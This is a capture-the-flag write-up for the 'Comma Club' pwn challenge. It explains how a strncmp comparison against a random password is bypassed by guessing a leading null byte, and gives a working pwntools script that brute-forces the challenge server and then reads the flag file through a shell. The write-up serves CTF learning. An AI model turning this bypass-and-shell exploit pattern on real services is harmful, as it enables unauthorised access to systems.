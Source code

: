 https://ctftime.org/event/2498

# Comma Club (pwn)

We need somone [sic] to run our vote tallying machine, and it needs to be someone trustworthy. Apparently there's some problem if a candidate gets too many votes. Shouldn't be a problem for us in Wyoming though.

nc comma-club.chal.hackthe.vote 1337

## Analysis

`main` @ `0x1c07`
- `getrandom` is used to get 16 random bytes and store them in `password` @ `0x5060`
- This means that we have a 1 in 256 chance of the first byte containing a specific value such as `0x00`
    - This will be important later

`check_password` @ `0x12c9`
- `scanf("%16s", local_28)` is used to read up to 16 non-whitespace characters from stdin
- `strncmp(local_28, password, 16)` is used to compare up to 16 non-null characters
    - This means that if we guess that first byte of `password` is `0x00` the rest of the password won't checked

Here I've recreated similar code to demonstrate how many attempts it takes to guess the first byte correctly:

```c
#include <fcntl.h>
#include <sys/types.h>
#include <sys/uio.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main() {
    int fd = open("/dev/urandom", O_RDONLY);
    for (int i = 0; ; i++) {
        char password[16];
        read(fd, password, 16);
        if (strncmp("", password, 16) == 0) {
            printf("%d\n", i);
            break;
        }
    }
    return 0;
}
```

We can see in the following results values around 256:

```bash
❯ clang test.c && ./a.out
31
❯ clang test.c && ./a.out
370
❯ clang test.c && ./a.out
282
❯ clang test.c && ./a.out
241
```

## Solution

1) Attempt to close voting
2) Guess the password starts with `\x00`

```python
#!/usr/bin/env python3

from pwn import *

while True:
    with remote("comma-club.chal.hackthe.vote", 1337) as p:
        p.sendlineafter(b"> ", b"3")
        p.sendlineafter(b"> ", b"\x00")
        if b"Correct" in p.readline():
            p.sendlineafter(b"exit.", b"/bin/cat flag")
            p.interactive() # flag{w3lc0me_2_TH3_2_c0mm4_c1ub}
            break
```

## Flag
`flag{w3lc0me_2_TH3_2_c0mm4_c1ub}`

smiley 2024/11/03
